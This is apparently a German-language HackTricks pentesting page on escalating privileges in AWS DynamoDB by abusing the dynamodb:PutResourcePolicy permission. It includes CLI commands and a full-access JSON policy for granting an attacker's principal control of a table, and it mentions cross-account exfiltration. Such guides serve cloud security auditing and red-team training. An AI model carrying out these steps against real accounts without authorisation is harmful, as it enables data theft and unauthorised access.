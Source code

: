 # AWS - DynamoDB Privesc

{{#include ../../../../banners/hacktricks-training.md}}

## dynamodb

Für mehr Informationen zu dynamodb siehe:

{{#ref}}
../../aws-services/aws-dynamodb-enum.md
{{#endref}}

### `dynamodb:PutResourcePolicy`, und optional `dynamodb:GetResourcePolicy`

Seit März 2024 bietet AWS *resource based policies* für DynamoDB ([AWS News](https://aws.amazon.com/about-aws/whats-new/2024/03/amazon-dynamodb-resource-based-policies/)) an.

Wenn du also `dynamodb:PutResourcePolicy` für eine Tabelle hast, kannst du dir selbst oder jedem anderen principal einfach vollen Zugriff auf die Tabelle gewähren.

Das Gewähren von `dynamodb:PutResourcePolicy` an einen zufälligen principal passiert häufig aus Versehen, wenn die Admins denken, dass das Gewähren von `dynamodb:Put*` dem principal nur erlauben würde, Items in die Datenbank zu schreiben – oder wenn sie dieses Permissionset vor März 2024 vergeben haben...

Idealerweise hast du auch `dynamodb:GetResourcePolicy`, damit du nicht andere potenziell wichtige Berechtigungen überschreibst, sondern nur die zusätzlichen Berechtigungen injizierst, die du brauchst:
```bash
# get the current resource based policy (if it exists) and save it to a file
aws dynamodb get-resource-policy \
--resource-arn <table_arn> \
--query 'Policy' \
--output text > policy.json
```
Wenn du die aktuelle Policy nicht abrufen kannst, verwende einfach diese, die deinem Principal vollen Zugriff auf die Tabelle gewährt:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Sid": "FullAccessToDynamoDBTable",
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::<ACCOUNT_ID>:<USER_OR_ROLE>/<USERNAME_OR_ROLENAME>"
},
"Action": [
"dynamodb:*"
],
"Resource": [
"arn:aws:dynamodb:<REGION>:<AWS_ACCOUNT_ID>:table/<TABLENAME>"
]
}
]
}
```
Wenn du es anpassen musst, findest du hier eine Liste aller möglichen DynamoDB-Aktionen: [AWS Documentation](https://docs.aws.amazon.com/amazondynamodb/latest/APIReference/API_Operations.html). Und hier eine Liste aller Aktionen, die über eine resource based policy erlaubt werden können *UND welche davon cross-account genutzt werden können (think data exfiltration!)*: [AWS Documentation](https://docs.aws.amazon.com/amazondynamodb/latest/developerguide/rbac-iam-actions.html)

Nun, da das Policy-Dokument `policy.json` bereit ist, setze die resource policy:
```bash
# put the new policy using the prepared policy file
# dynamodb does weirdly not allow a direct file upload
aws dynamodb put-resource-policy \
--resource-arn <table_arn> \
--policy "$(cat policy.json)"
```
Nun solltest du die benötigten Berechtigungen haben.

### Post Exploitation

Soweit ich weiß gibt es **keinen anderen direkten Weg, Privilegien in AWS allein durch einige AWS `dynamodb`-Berechtigungen zu erhöhen**. Du kannst **sensible Informationen aus den Tabellen lesen** (die AWS credentials enthalten könnten) und **Informationen in die Tabellen schreiben** (was andere Schwachstellen auslösen könnte, wie lambda code injections...), aber all diese Optionen werden bereits in der **DynamoDB Post Exploitation page** berücksichtigt:

{{#ref}}
../../aws-post-exploitation/aws-dynamodb-post-exploitation/README.md
{{#endref}}

### TODO: Daten aus Streams auslesen

{{#include ../../../../banners/hacktricks-training.md}}
